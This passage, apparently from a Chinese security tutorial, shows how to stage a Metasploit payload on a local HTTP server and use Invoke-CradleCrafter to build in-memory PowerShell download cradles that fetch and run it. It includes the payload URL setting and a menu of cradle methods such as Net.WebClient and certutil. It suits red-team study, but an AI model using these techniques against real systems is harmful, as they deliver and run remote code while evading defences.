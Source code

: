 使用msf生成一个payload，在本地起一个http服务器，放到http服务器的目录下

[![](assets/1701612219-1d4de19667cdd8500f110c26875aff1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152109-984ad17c-ca85-1.png)

设置url为http服务器目录

```plain
set URL http://172.20.10.4:8000/key.txt
```

​ [![](assets/1701612219-a4b6e6e23c919c55f311ab6a36b1dfb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152110-98d678ee-ca85-1.png)

使用以下几个命令进行初始化

```plain
Invoke-CradleCrafter> MEMORY

Choose one of the below Memory options:

[*] MEMORY\PSWEBSTRING          PS Net.WebClient + DownloadString method
[*] MEMORY\PSWEBDATA            PS Net.WebClient + DownloadData method
[*] MEMORY\PSWEBOPENREAD        PS Net.WebClient + OpenRead method
[*] MEMORY\NETWEBSTRING         .NET [Net.WebClient] + DownloadString method (PS3.0+)
[*] MEMORY\NETWEBDATA           .NET [Net.WebClient] + DownloadData method (PS3.0+)
[*] MEMORY\NETWEBOPENREAD       .NET [Net.WebClient] + OpenRead method (PS3.0+)
[*] MEMORY\PSWEBREQUEST         PS Invoke-WebRequest/IWR (PS3.0+)
[*] MEMORY\PSRESTMETHOD         PS Invoke-RestMethod/IRM (PS3.0+)
[*] MEMORY\NETWEBREQUEST        .NET [Net.HttpWebRequest] class
[*] MEMORY\PSSENDKEYS           PS SendKeys class + Notepad (for the lulz)
[*] MEMORY\PSCOMWORD            PS COM object + WinWord.exe
[*] MEMORY\PSCOMEXCEL           PS COM object + Excel.exe
[*] MEMORY\PSCOMIE              PS COM object + Iexplore.exe
[*] MEMORY\PSCOMMSXML           PS COM object + MsXml2.ServerXmlHttp
[*] MEMORY\PSINLINECSHARP       PS Add-Type + Inline CSharp
[*] MEMORY\PSCOMPILEDCSHARP     .NET [Reflection.Assembly]::Load Pre-Compiled CSharp
[*] MEMORY\CERTUTIL             Certutil.exe + -ping Argument

```